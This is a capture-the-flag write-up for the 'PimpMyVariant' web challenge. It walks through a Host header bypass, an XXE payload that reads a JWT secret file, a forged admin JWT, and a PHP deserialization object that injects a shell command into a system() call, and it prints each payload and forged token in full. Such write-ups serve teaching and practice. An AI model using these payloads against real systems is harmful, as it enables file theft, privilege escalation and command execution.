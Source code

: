 # PimpMyVariant (WEB)

## Introduction

So we fall on a page with covid variants list and apparently there's nothing in the page source code.

![image](https://user-images.githubusercontent.com/88440644/151672386-7af1f7b6-7bba-4889-aaaa-f0c2fed5faf8.png)

First thing we do is check robots.txt page. And we see that there's some endpoints :

![image](https://user-images.githubusercontent.com/88440644/151672246-e2ce96bf-05e0-467b-841b-7231a01b630b.png)

We saw the flag.txt and todo.txt but it's a rabbit hole :

![](https://cdn.discordapp.com/attachments/503921688657002516/937036562334617650/unknown.png)
![](https://cdn.discordapp.com/attachments/503921688657002516/937037397139546132/unknown.png)

So we want to check now the last three pages :
- /readme
- /new
- /log

But if we try to access them we get the following error :

![](https://cdn.discordapp.com/attachments/503921688657002516/937040834656895056/unknown.png)

## Hostname bypass

This step was pretty simple, we could bypass that by setting the **Host** header to `127.0.0.1`. I personally used ModHeader extension.

![image](https://user-images.githubusercontent.com/88440644/151671747-69b78037-d43f-4798-a51c-9c475e1f0299.png)

Now we get the location of the JWT secret, but we need to read this so let's find out how to do this.

## XXE Injection

By looking on the **/new** endpoint we see that we can submit a variant name that'll be add to the variants list :

![image](https://user-images.githubusercontent.com/88440644/151672156-a68f01e1-4d97-42d8-afae-2327666c2120.png)
![image](https://user-images.githubusercontent.com/88440644/151672171-a2df7ce3-646d-4b12-95a4-de99f455723d.png)

And if we look at the request made when we add a variant name we see that we're dealing with an XML request :

![image](https://user-images.githubusercontent.com/88440644/151672741-c0e427ab-21eb-42a7-a3a0-ee2777805e4d.png)

When a variant is added, a JWT token is generated that contains this variant name :

![image](https://user-images.githubusercontent.com/88440644/151673568-7b3d49bc-7354-4fb9-9a6c-44d1a26e5f45.png)

But now we need to exploit this XML request, and for that we want to exfiltrate the JWT secret file to be able to sign our own JWT token. To do this we'll use this XML payload that will put in the variant name the output of the file `jwt.secret.txt`:

```xml
<?xml version='1.0' encoding='utf-8'?>
<!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///www/jwt.secret.txt" >]>
<root>
  <name>
    &xxe;
  </name>
</root>
```

![image](https://user-images.githubusercontent.com/88440644/151672641-56a35f03-bf13-4737-9f6a-fbf32f1bce2f.png)

Now we can see that the JWT secret is in the variants list and in the JWT token :

  - 54b163783c46881f1fe7ee05f90334aa

![image](https://user-images.githubusercontent.com/88440644/151675675-e27843d0-4a57-46bd-8b55-ae8babbdbdd7.png)

## PHP Deserialization

So we can sign a token, and if you saw there was a serialized object in the JWT token with the parameter **isAdmin** set to 0 (false). Our goal is to modify this value to 1 (true) to be able to access **/log** endpoint because it's only accessible to *admin*. So let's forge a JWT token with **isAdmin** sets to **0** thanks to the python PyJWT library :

```python
import jwt
token = jwt.encode({
  "variants": [
    "Alpha"
  ],
  "settings": "a:1:{i:0;O:4:\"User\":3:{s:4:\"name\";s:4:\"Anon\";s:7:\"isAdmin\";b:1;s:2:\"id\";s:40:\"42357db6af31f5c6f4ce007059799a9a330f7c9f\";}}",
  "exp": 1643480307
}, "54b163783c46881f1fe7ee05f90334aa", algorithm="HS256")
print(token)
```
Output : 
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ2YXJpYW50cyI6WyJBbHBoYSJdLCJzZXR0aW5ncyI6ImE6MTp7aTowO086NDpcIlVzZXJcIjozOntzOjQ6XCJuYW1lXCI7czo0OlwiQW5vblwiO3M6NzpcImlzQWRtaW5cIjtiOjE7czoyOlwiaWRcIjtzOjQwOlwiNDIzNTdkYjZhZjMxZjVjNmY0Y2UwMDcwNTk3OTlhOWEzMzBmN2M5ZlwiO319IiwiZXhwIjoxNjQzNDgwMzA3fQ.3-nXabEL-8rS0LM-AlOAevCIx5UshlEeVeaFtyTuUTQ
```

Now we can try to access to **/log** and we get a logging error:

![image](https://user-images.githubusercontent.com/88440644/151676112-f87bee76-c0a1-4e25-8ec2-712bf9daa7e7.png)

So the error is the following :

```php
[2021-12-25 02:12:01] Fatal error: Uncaught Error: Bad system command call from UpdateLogViewer::read() from global scope in /www/log.php:36
Stack trace:
#0 {main}
  thrown in /www/log.php on line 37
#0 {UpdateLogViewer::read}
  thrown in /www/UpdateLogViewer.inc on line 26
```

We can see another interesting file which is `/www/UpdateLogViewer.inc` and we can download it directly from the website at http://pimpmyvariant.insomnihack.ch/UpdateLogViewer.inc :

```php
<?php

class UpdateLogViewer
{
	public string $packgeName;
	public string $logCmdReader;
	private static ?UpdateLogViewer $singleton = null;
	
	private function __construct(string $packgeName)
	{
		$this->packgeName = $packgeName;
		$this->logCmdReader = 'cat';
	}
	
	public static function instance() : UpdateLogViewer
	{
		if( !isset(self::$singleton) || self::$singleton === null ){
			$c = __CLASS__;
			self::$singleton = new $c("$c");
		}
		return self::$singleton;
	}
	
	public static function read():string
	{
		return system(self::logFile());
	}
	
	public static function logFile():string
	{
		return self::instance()->logCmdReader.' /var/log/UpdateLogViewer_'.self::instance()->packgeName.'.log';
	}
	
    public function __wakeup()// serialize
    {
    	self::$singleton = $this; 
    }
};
```

So now just by seeing the `system()` call in `read()` function we can guess that it's a PHP deserialization vulnerability, by default the code will `cat` the content of `packgeName` log file but these are values we can control in the deserialization process.

So to achieve our exploit we're going to append our desire object into the array deserialized.

```php
public static function logFile():string
{
  return self::instance()->logCmdReader.' /var/log/UpdateLogViewer_'.self::instance()->packgeName.'.log';
}
```
The returned value is executed by `system()` so we can imagine the command executed behind to display the content of the current directory :

```php
system('cat *; /var/log/UpdateLogViewer_x.log');
```

So we craft our serialized object like that :

```php
a:2:{i:0;O:4:"User":3:{s:4:"name";s:4:"Anon";s:7:"isAdmin";b:1;s:2:"id";s:40:"bec9b80a3ed0ee3f0463d68bdef1128de828acb5";}i:1;O:15:"UpdateLogViewer":2:{s:10:"packgeName";s:1:"x";s:12:"logCmdReader";s:6:"cat *;";}}
```

We forge another token with that data and we get a new token :
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ2YXJpYW50cyI6WyJBbHBoYSJdLCJzZXR0aW5ncyI6ImE6Mjp7aTowO086NDpcIlVzZXJcIjozOntzOjQ6XCJuYW1lXCI7czo0OlwiQW5vblwiO3M6NzpcImlzQWRtaW5cIjtiOjE7czoyOlwiaWRcIjtzOjQwOlwiYmVjOWI4MGEzZWQwZWUzZjA0NjNkNjhiZGVmMTEyOGRlODI4YWNiNVwiO31pOjE7TzoxNTpcIlVwZGF0ZUxvZ1ZpZXdlclwiOjI6e3M6MTA6XCJwYWNrZ2VOYW1lXCI7czoxOlwieFwiO3M6MTI6XCJsb2dDbWRSZWFkZXJcIjtzOjY6XCJjYXQgKjtcIjt9fSIsImV4cCI6MTY0MzQ4MDMwN30.aDkxHvE53Wmy2BawAGWWrg868TMK1Sr_73ZL6cLbYLM
```

Now if we refresh the **/log** page we can get the flag that is displayed : `INS{P!mpmYV4rianThat's1flag}`

*Hope you enjoy, have a very good day !*
